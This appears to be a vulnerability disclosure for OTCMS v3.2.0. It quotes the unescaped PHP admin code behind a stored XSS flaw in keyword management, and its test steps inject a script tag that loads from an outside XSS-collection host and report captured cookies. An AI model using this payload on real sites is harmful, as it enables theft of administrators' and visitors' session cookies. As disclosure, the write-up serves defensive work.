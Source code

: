 # OTCMS_3.2
###1.Vulnerability type:Cross site request XSS
###2.Vulnerability program: OTCMS v3.2.0 
###3.Download address:http://110.85.5.26:89/uploads/userup/930/OTCMS_PHP_a5.rar
###4.The official website:http://otcms.com/
###5.Vulnerability description: Adding keywords and links at the anchor text management section under article management in the background management. Because the filtering is not strict, malicious intruders can maliciously insert XSS malicious statements so that cookies can be obtained, and fishing and horse-hanging attacks can be implemented.
###6.poc:
function manage(){
	global $DB,$MB,$skin,$mudi,$dataType,$dataTypeCN,$pageCount,$recordCount;

	$dataMode		= OT::GetStr('dataMode');
	$dataModeStr	= OT::GetStr('dataModeStr');

	$judApp4 = Area::JudPayApp(4);
	if ($judApp4){
		$tabWidthStr = '5%,15%,25%,25%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,样式,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:;';
	}else{
		$tabWidthStr = '5%,25%,40%,6%,6%,8%,10%';
		$tabTitleStr = '编号,关键字,链接地址,替换次数,排序,状态,修改　删除';
		$busiStyleStr = 'display:none;';
	}
	$skin->TableTop2('share_list.gif','',$dataTypeCN .'管理');
	$skin->TableItemTitle($tabWidthStr,$tabTitleStr);
	
	$pageSize	= $MB->mMbRow['MB_itemNum'];		//每页条数
	$page		= OT::GetInt('page');
	$showRow=$DB->GetLimit("select * from ". OT_dbPref ."keyWord where KW_type='". $dataType ."' order by KW_rank ASC",$pageSize,$page);
	if (! $showRow){
		$skin->TableNoData();
	}else{
		$recordCount=$DB->GetRowCount();
		$pageCount=ceil($recordCount/$pageSize);
		if ($page < 1 || $page > $pageCount){$page=1;}

		echo('
		<tbody class="tabBody padd3td">
		');
		$number=1+($page-1)*$pageSize;
		$rowCount = count($showRow);
		for ($i=0; $i<$rowCount; $i++){
			if ($i % 2 == 1){ $bgcolor='class="tabColorTr"'; }else{ $bgcolor=''; }

			echo('
			<tr id="data'. $showRow[$i]['KW_ID'] .'" '. $bgcolor .'>
				<td align="center">'. $number .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_theme'] .'</td>
				<td align="center" style="word-break:break-all;">'. $showRow[$i]['KW_URL'] .'</td>
				<td align="center" style="word-break:break-all;'. $busiStyleStr .'">'. $showRow[$i]['KW_themeStyle'] .'</td>
				<td align="center">'. $showRow[$i]['KW_useNum'] .'</td>
				<td align="center">'. $showRow[$i]['KW_rank'] .'</td>
				<td align="center">'. Adm::SwitchBtn('keyWord',$showRow[$i]['KW_ID'],$showRow[$i]['KW_isUse'],'isUse') .'</td>
				<td align="center">
					<img src="images/img_rev.gif" style="cursor:pointer;" onclick=\'DataDeal.location.href="keyWord_deal.php?mudi=send&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&dataMode='. $dataMode .'&dataModeStr='. $dataModeStr .'&dataID='. $showRow[$i]['KW_ID'] .'&typeNum='. $number .'"\' alt="" />&nbsp;&nbsp;
					<img src="images/img_del.gif" style="cursor:pointer;" onclick=\'if(confirm("确定删除？")==true){DataDeal.location.href="keyWord_deal.php?mudi=del&dataType='. $dataType .'&dataTypeCN='. urlencode($dataTypeCN) .'&theme='. urlencode($showRow[$i]['KW_theme']) .'&dataID='. $showRow[$i]['KW_ID'] .'"}\' alt="" />
				</td>
			</tr>
			');
			$number ++;
		}
		echo('
		</tbody>
		');
	}
	unset($showRow);

	echo('
	<form method="post" id="listForm" name="listForm" action="keyWord_deal.php?mudi=add" onsubmit="return CheckForm()">
	<script language="javascript" type="text/javascript">document.write(\'<input type="hidden" name="backURL" value="\'+ document.location.href +\'">\')</script>
	<input type="hidden" id="dataType" name="dataType" value="'. $dataType .'" />
	<input type="hidden" id="dataType" name="dataTypeCN" value="'. $dataTypeCN .'" />
	<input type="hidden" id="dataID" name="dataID" value="0" />
	<tr>
		<td id="numID" align="center"><br /></td>
		<td align="center"><input type="text" id="theme" name="theme" size="25" style="width:120px;" /></td>
		<td align="center"><input type="text" id="webURL" name="webURL" size="25" style="width:220px;" value="http://" /></td>
		<td align="left" style="padding:3px;'. $busiStyleStr .'">
			'. AppBase::KeyWordAddi() .'
		</td>
		<td align="center"><input type="text" id="useNum" name="useNum" size="3" value="0" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><input type="text" id="rank" name="rank" size="3" value="'. (intval($DB->GetOne("select max(KW_rank) from ". OT_dbPref ."keyWord where KW_type='". $dataType ."'"))+10) .'" onkeyUp="this.value=FiltInt(this.value)" /></td>
		<td align="center"><select id="isUse" name="isUse"><option value="1">启用</option><option value="0">禁用</option></select></td>
		<td align="center"><input id="subButton" type="image" src="images/button_add.gif" /></td>
	</tr>
	</form>
	<tr class="padd8">
		<td align="left" colspan="7" class="font2_2">
			提醒：1、关键字，尽量不要用纯英文做，容易造成内容标签或分页路径被破坏问题；&nbsp;&nbsp;&nbsp;&nbsp;2、替换次数：0表示不限；
		</td>
	</tr>
	');
###7.Test process:
We came to the background of the anchor text management add
![XSS insertion](1.png)
Insert our malicious statement,Confirm add:
<script src=http://xsspt.com/jr9Iqk?1521875397></script>
![Insert malicious statements](2.png)
Obtain Payload:
![Obtain Payload](3.png)
successful acquisition payload:
![successful acquisition](4.png)
![successful](5.png)
successful acquisition cookie:
![cookie](6.png)
			
					Submitter:Free雅轩
